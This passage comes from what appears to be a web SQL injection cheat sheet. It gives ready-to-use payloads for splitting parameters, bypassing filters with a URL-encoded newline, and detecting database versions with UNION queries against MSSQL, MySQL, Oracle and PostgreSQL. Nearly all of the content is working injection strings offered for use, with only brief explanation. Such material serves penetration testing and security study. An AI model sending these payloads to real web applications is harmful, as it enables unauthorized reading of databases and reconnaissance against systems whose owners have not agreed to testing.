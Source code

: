 We may inject by splitting the parameter values on the same keys.

```html
/?id='+select+1&id=2,3+from+users+where+id=1-- -
```

### [New Line (’%0A’)](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#new-line-(%E2%80%99%250a%E2%80%99))

By prepending the new line (URL encoded to ‘%0A’), subsequent syntax may circumvent the filtering.

```html
/?id=%0A' OR 1=1-- -
```

  

## [Version Detection](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#version-detection)

### [MSSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mssql)

```html
' UNION SELECT @@version--
' UNION SELECT NULL,@@version--
```

### [MySQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mysql)

```html
' UNION SELECT @@version-- -
' UNION SELECT @@version#

' UNION SELECT NULL,@@version-- -
' UNION SELECT NULL,@@version#
```

### [Oracle](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#oracle)

```html
' UNION SELECT 'a' FROM dual--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT * FROM v$version--
' UNION SELECT BANNER,NULL FROM v$version--
```

### [PostgreSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#postgresql)

```html
' UNION SELECT version()--
' UNION SELECT NULL,version()--
```
